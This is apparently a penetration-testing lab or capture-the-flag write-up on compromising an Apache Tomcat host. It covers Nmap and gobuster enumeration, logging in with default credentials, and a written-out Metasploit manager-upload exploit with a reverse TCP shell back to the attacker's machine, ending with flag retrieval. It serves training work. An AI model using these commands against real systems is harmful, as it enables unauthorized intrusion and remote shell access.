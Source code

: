 # 172.16.64.101
```
Nmap scan report for 172.16.64.101
Host is up (0.092s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:b7:1c:3d:55:b3:9d:98:58:11:17:ef:cc:af:27:67 (RSA)
|   256 5f:b9:93:e2:ec:eb:f7:08:e4:bb:82:d0:df:b9:b1:56 (ECDSA)
|_  256 db:1f:11:ad:59:c1:3f:0c:49:3d:b0:66:10:fa:57:21 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache2 Ubuntu Default Page: It works
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Going to port 8080 returns default apache site, so lets gobuster

`gobuster dir -u http://172.16.64.101:8080 -w /opt/SecLists/Discovery/Web-Content/ApacheTomcat.fuzz.txt -r`

We find the default location of manager but get a 401 unauthorized, if we hit this in a browser we are presented with the usual 401 error
![unauthorized](unauthorized.png)

Knowing this is Tomcat, metasploit has a module to exploit an authenticated upload. But can we authenticate? Testing `tomcat:s3cret` does infact work for us on this machine. Fire up msfconsole and enter:  
``  
`` for linux x86 which we know from nmap
```
use exploit/multi/http/tomcat_mgr_upload
set TARGET 2
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpPassword s3cret
msf6 exploit(multi/http/tomcat_mgr_upload) > set HttpUsername tomcat
msf6 exploit(multi/http/tomcat_mgr_upload) > set RHOSTS 172.16.64.101
msf6 exploit(multi/http/tomcat_mgr_upload) > set RPORT 8080
msf6 exploit(multi/http/tomcat_mgr_upload) > set LHOST 172.16.64.10
msf6 exploit(multi/http/tomcat_mgr_upload) > set Payload linux/x86/shell/reverse_tcp
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
```

We set the target to 2 because from nmap we know the machine is Linux based. After a moment we get out session.
```
[*] Started reverse TCP handler on 172.16.64.10:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying QVQuNC1w3UJDtUOL7FG1aBxdZ...
[*] Executing QVQuNC1w3UJDtUOL7FG1aBxdZ...
[*] Sending stage (36 bytes) to 172.16.64.101
[*] Undeploying QVQuNC1w3UJDtUOL7FG1aBxdZ ...
[*] Command shell session 1 opened (172.16.64.10:4444 -> 172.16.64.101:33558) at 2021-08-18 10:50:32 -0400

id
uid=122(tomcat8) gid=129(tomcat8) groups=129(tomcat8)
```
At this point we can cd to /home and do an ls to see a `developer` folder we can access, going into here we see our flag.txt *`(this is different from the .182 machine because we're on the .101 box)`*